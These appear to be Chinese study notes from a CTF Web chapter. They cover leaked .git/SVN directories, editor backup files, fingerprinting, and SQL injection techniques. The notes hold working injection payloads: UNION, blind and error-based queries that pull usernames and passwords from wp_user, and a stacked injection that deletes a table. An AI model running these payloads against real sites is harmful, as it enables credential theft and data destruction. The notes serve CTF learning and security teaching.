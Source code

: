 # 第1章 Web入门
## 1.1 举足轻重的信息收集
### 1.1.1 敏感目录泄露
#### 1.git泄露
##### （1）常规git泄露  
使用https://github.com/denny0223/scrabble工具获取源代码  
##### （2）git回滚  
使用git reset，或者git log -stat查看每个commmit修改了哪些文件再用git diff HEAD commit-id查看当前版本和想查看的commit之间的变化  
##### （3）git分支  
手工进行文件提取  
##### （4）git泄露的其他利用
如.git/config文件夹中可能包含access_token信息，从而可以访问这个用户的其他仓库
#### 2.SVN泄露
推荐工具：https://github.com/kost/dvcs-ripper和Seay-svn（Windows下的源代码备份漏洞利用工具）
#### 3.HG泄露
推荐工具：https://github.com/kost/dvcs-ripper
#### 4.总结经验
字典非常重要，此外还可在某些工具的基础上二次开发，推荐工具：https://github.com/maurosoria/dirsearch 。对于重定向类型的问题，如果访问.git返回403，则试着访问.git/config，如果有文件返回则说明存在git泄露，反之一般不存在。SVN泄露一般在entries中爬取源代码，如果entries为空则注意wc.db文件是否存在，然后通过其中的checksum在pristine文件夹中获取源代码
### 1.1.2 敏感备份文件
#### 1.gedit备份文件
在Linux中用gedit编辑器保存后会生成后缀为“～”的文件，其文件内容就是刚编辑的内容
#### 2.vim备份文件
用vim编辑文件意外退出后时，会在当前目录生成备份文件，格式为：“.文件名.swp”。恢复SWP备份文件的办法是现在当前目录创建一个同名文件，再使用“vim -r flag”命令，即可得到意外退出时编辑的内容
#### 3.常规文件
robots.txt:记录一些目录和CMS版本信息
readme.md:记录CMS版本信息，甚至Github地址
www.zip/rar/tar.gz:往往是网站的源码备份
/index.php~或/index.php.bak:网站备份文件
#### 4.总结经验
可编写实时监控脚本监控SWP等备份文件。vim第一次意外退出生成*.swp，第二次为*.swo，第三次为*.swn，等等，此外还有*.un.文件名.swp类型的备份文件。在实际环境中，网站的备份可能是网站域名的压缩包
### 1.1.3 Banner识别
#### 1.自行搜集指纹库
Github上或其他扫描器搜集CMS指纹库
#### 2.使用已有工具
利用Wappalyzer工具
#### 3.总结经验
可试着随意输入一些URL，通过404页面和302跳转页面发现信息
### 1.1.4 题目经验总结
1.针对Windows服务器，大概率是寻找CMS在其上的漏洞   
2.在不知道密码和无法重置的情况下，通过CMS网站本身的特性，结合目录遍历来实现最后的RCE
## 1.2 CTF中的SQL注入
### 1.2.1 SQL注入基础
#### 1.2.1.1 数字型注入和UNION注入
?id=-1 union select 1,group_concat(table_name) from information.schema.tables where table_schema=database()  
?id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='xxx'
#### 1.2.1.2 字符型注入和布尔盲注
?id=1' and (select mid((select concat(user,0x7e,pwd) from wp_user),1,1))='a'%23
?id=1' and (select mid((select concat(user,0x7e,pwd) from wp_user),2,1))='d'%23
#### 1.2.1.3 报错注入
updatexml在执行时第二个参数应该为合法XPATH路径，否则会在引发报错的同时将传入的参数输出：  
?id=1' or updatexml(1,concat(0x7e,(select pwd from wp_user)),1)%23  
当目标开启多语句执行的时候，可以采用多语句执行的方式修改数据库的任意结构和数据，称作堆叠注入：  
?id=1%27;delete%20%20from%20wp_files;%23
#### 1.2.1.4 总结
注入使用优先级：UNION注入>报错注入>布尔盲注>时间盲注
### 1.2.2 注入点
#### 1.2.2.1 SELECT注入
1.注入点在select_expr  
利用AS别名，直接将查询的结果显示到界面中：?id=(select%20pwd%20from%20wp_user)%20as%20title
2.注入点在table_reference  
仍可利用别名的方式取出数据：?id=(select%20pwd%20as%20title%20from%20wp_user)  
不知表名可先从information_schema.tables中查询表名  
在select_expr和table_reference的注入，如果注入点有反引号包裹，那么先闭合反引号  
3.注入点在WHERE或HAVING后  
现实中最常遇到，先判断有无引号包裹，再闭合前面可能存在的括号  
4.注入点在GROUP BY或ORDER BY后
看语句后面能加什么，从而判断当前可以注入的位置，进而进行针对性的注入  
*本节的情况在大部分开发者有安全意识后仍广泛存在，主要原因是开发者在编写系统框架时无法使用预编译的办法处理这类参数。事实上只要对输入的值进行白名单对比，基本上就能防御这种注入  
5.注入点在LIMIT后  
LIMIT后的注入判断比较简单，通过改变数字大小，页面会显示更多或更少的记录数。由于LIMIT后面只能是数字，字符注入方式不可行，在没有ORDER BY关键字的情况下，可以直接使用UNION注入。

